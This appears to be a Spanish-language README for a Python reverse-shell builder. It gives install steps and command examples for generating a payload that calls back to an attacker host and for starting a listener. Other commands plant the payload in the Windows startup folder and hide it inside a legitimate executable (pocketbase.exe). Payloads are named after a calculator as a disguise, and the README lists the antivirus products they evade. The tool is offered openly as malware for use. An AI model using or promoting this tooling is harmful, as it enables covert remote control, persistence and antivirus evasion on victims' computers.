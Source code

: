 # Reverse Shell

Proyecto que consiste en generar un payload de reverse shell en python, el cual se ejecuta en la máquina objetivo y se conecta a un servidor controlado por el atacante.

- [Reverse Shell](#reverse-shell)
  - [Requisitos](#requisitos)
  - [Instalación](#instalación)
  - [Uso](#uso)
  - [Comandos](#comandos)
  - [Ejemplos](#ejemplos)
    - [Payload](#payload)
    - [Servidor en escucha](#servidor-en-escucha)
    - [Autoexe](#autoexe)
    - [Hidden exe in pocketbase](#hidden-exe-in-pocketbase)
  - [Pruebas realizadas en antivirus](#pruebas-realizadas-en-antivirus)
  - [Resultados de virustotal.com](#resultados-de-virustotalcom)
  - [Capturas](#capturas)

## Requisitos

- ![Static Badge](https://img.shields.io/badge/Python-^3.12-yellow?logo=python&logoColor=white)

## Instalación

Clona el repositorio

```bash
git clone https://github.com/epmyas2022/reverse_shell.git
```

Entra al directorio del proyecto

```bash
cd reverse_shell
```

Instala las dependencias

```bash
pip install -r requirements.txt
```

## Uso

```bash
python reverse_shell.py
```

## Comandos

- `help`: Muestra la lista de comandos disponibles.
- `generate`: Genera un payload de reverse shell en python.
- `execute`: Inicia un servidor que escucha las conexiones de los payloads generados.
- `autoexe`: Genera un exe que creara una copia del payload en la carpeta de inicio de Windows.
- `hiddenexe`: Genera un exe que oculta una carga dentro de otra aplicacion.
- `set`: Establece el valor de una variable.
- `exit`: Salir del programa.

## Ejemplos

Generar un payload de reverse shell especificando la dirección IP y el puerto del servidor

El siguiente comando setea la direccion IP del payload:

### Payload

```bash
set generate.lhost 10.0.0.20
```

El siguiente comando setea el puerto del payload:

```bash
set generate.lport 4444
```

El siguiente comando genera el payload:

```bash
generate
```

![Reverse Shell Generate Command](./images/payload.png)

Los payloads generados se guardan en la carpeta raíz del proyecto. con el siguiente nombre: `calculator-{timestamp}`

### Servidor en escucha

Iniciar el servidor que escucha las conexiones de los payloads generados

El siguiente comando setea el puerto del servidor:

```bash
set session.lport 4444
```

El siguient comando setea el host del servidor:

```bash
set session.lhost 10.0.0.20
```

El siguiente comando inicia el servidor:

```bash
execute
```

![Reverse Shell Execute Command](./images/execute.png)

Para detener la escucha del servidor, presiona `Ctrl + C`

Para salir de la sesión, ejecuta el comando `exit`

### Autoexe

Generar un autoexe creara una copia del payload en la carpeta de inicio de Windows.

Antes que nada, se debe generar un payload.

El siguiente comando setea el nombre del archivo:

```bash
set windows.autoexe.path <nombre_del_payload>
```

El siguiente comando genera el autoexe:

```bash
autoexe
```

![Reverse Shell Autoexe Command](./images/autoexe.png)

### Hidden exe in pocketbase

Generar un exe que oculta una carga dentro de otra aplicacion (pocketbase.exe)

Antes que nada, se debe generar un payload.

El siguiente comando setea el directorio de aplicacion:

```bash
set windows.hiddenexe.path <ruta_con_lo_que_se_quiere_ocultar>
```

El siguiente comando indica el nombre de exe oculto a ejecutar:

```bash

set windows.hiddenexe.payload <nombre_del_exe_oculto>
```

El siguiente comando indica el nombre del exe legitimo a ejecutar:

```bash
set windows.hiddenexe.app <nombre_del_exe_legitimo>
```

El siguiente comando genera el hidden exe:

```bash
hiddenexe
```

![Reverse Shell Hiddenexe Command](./images/hiddenexe.png)

## Pruebas realizadas en antivirus

✅ = No detectado
❌ = Detectado

- Windows Defender [✅]
- Avast [✅]
- ESETNOD32 [✅]
- McAfee [✅]
- Bitdefender [✅]
- Bkav Pro [❌]
- SecureAge [❌]
- Kaspersky [❌]
- Skyhigh (SWG) [❌]

## Resultados de virustotal.com

<a href="https://www.virustotal.com/gui/file/a3529b34abafcf1bb4ae8bebb464d7a79a22ea1bd9a14dfdd53072edd2d28911">Payload</a>
  
<a href="https://www.virustotal.com/gui/file/9988d8ba90ad03359e79be815032e616d1f76432a12208c659b1cd2a8a719f7b/detection">Autoexe</a>

<a href="https://www.virustotal.com/gui/file/49e681cf0985c0923db8f1f879be37af7a8d179085b2f226ee02d02c7bcbc19d">Hidden exe in pocketbase</a>

## Capturas

![Reverse Shell](./images/image.png)
